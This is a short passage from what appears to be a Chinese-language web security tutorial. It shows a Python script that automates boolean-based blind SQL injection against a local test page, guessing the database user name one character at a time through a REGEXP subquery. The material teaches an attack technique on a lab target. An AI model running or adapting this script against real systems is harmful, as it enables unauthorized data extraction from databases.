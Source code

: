 同样的，我们可以写成脚本来代替我们进行操作：

```text
import requests

result_list = []
poc_str = 'abcdefghijklmnopqrstuvwxyz0123456789!@#$'
while True:
    for char in poc_str:
        str_check_poc = r"http://127.0.0.1/boolean.php?id=0%27%20and%201=(SELECT%201%20FROM%20information_schema.tables%20WHERE%20TABLE_SCHEMA=%22test%22%20AND%20user()%20REGEXP%20%27^^"+ ''.join(result_list) + char +"%27%20LIMIT%200,1)%20--+"
        r = requests.get(str_check_poc)
        if r.text == 'yes':
            result_list.append(char)
            break
    if result_list[-1] == '$':
        exit(0)
    print('当前数据库用户为：' + ''.join(result_list) + '\n')
```

![](../../../.gitbook/assets/tu-pian%20%28107%29.png)
